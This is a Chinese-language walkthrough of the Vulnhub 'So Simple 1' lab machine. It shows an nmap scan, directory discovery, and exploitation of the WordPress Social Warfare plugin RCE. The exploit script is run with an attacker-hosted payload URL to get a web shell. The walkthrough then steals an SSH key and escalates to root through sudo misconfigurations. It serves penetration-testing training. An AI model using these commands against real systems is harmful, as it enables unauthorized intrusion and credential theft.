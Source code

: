 ```yaml
---

title: Vulnhub	515 SO SIMPLE-1
date: 2020-07-17
---
```

考点：dirsearch,wordpress,sudo,id_rsa

靶机链接：<https://www.vulnhub.com/entry/so-simple-1,515/>
<!--more-->
## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.24 |
| SIMPLE-1   | 10.0.2.30 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.30
$ sudo nmap -v -A -p- $rip
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 5b:55:43:ef:af:d0:3d:0e:63:20:7a:f4:ac:41:6a:45 (RSA)
|   256 53:f5:23:1b:e9:aa:8f:41:e2:18:c6:05:50:07:d8:d4 (ECDSA)
|_  256 55:b7:7b:7e:0b:f5:4d:1b:df:c3:5d:a1:d7:68:a9:6b (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: So Simple
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

### WEB测试

#### dirsearch

```bash
$ dirsearch -u http://10.0.2.30                    
[05:09:36] 200 -   13KB - /wordpress/ 
[05:09:36] 200 -    5KB - /wordpress/wp-login.php
```

看来是搞wordpress了

### 漏洞发现

```bash
$ wpscan --url http://10.0.2.30/wordpress/ --api-token ******************************************* 
```

![1](https://www.vulnhub.cn/walkthrough/515/1.webp)

参考[WordPress Plugin Social Warfare < 3.5.3 - Remote Code Execution](https://www.exploit-db.com/exploits/46794)

![2](https://www.vulnhub.cn/walkthrough/515/2.webp)

## 获得权限

### getwebshell

kali上开web服务

```bash
$ python -m 'http.server' 80
```

![3](https://www.vulnhub.cn/walkthrough/515/3.webp)



```bash
$ python2  46794.py -t http://10.0.2.30/wordpress/ -p http://10.0.2.24/CVE/CVE-2019-9978 
```

执行后访问shell地址返回200，使用antsword连接成功

![4](https://www.vulnhub.cn/walkthrough/515/4.webp)

### 获得id_rsa

发现`/home/max/.ssh/`目录可访问，下载id_rsa文件成功

ssh远程访问成功

![5](https://www.vulnhub.cn/walkthrough/515/5.webp)

## 提权

可免密执行`service`，[GTFOBins](https://gtfobins.github.io/gtfobins/service/)一把梭

![6](https://www.vulnhub.cn/walkthrough/515/6.webp)

成功切换用户

继续查看`sudo -l`，发现可免密执行`/opt/tools/server-health.sh`，但是这个文件不存在，只好自己新建写入了，运行获得root

![7](https://www.vulnhub.cn/walkthrough/515/7.webp)
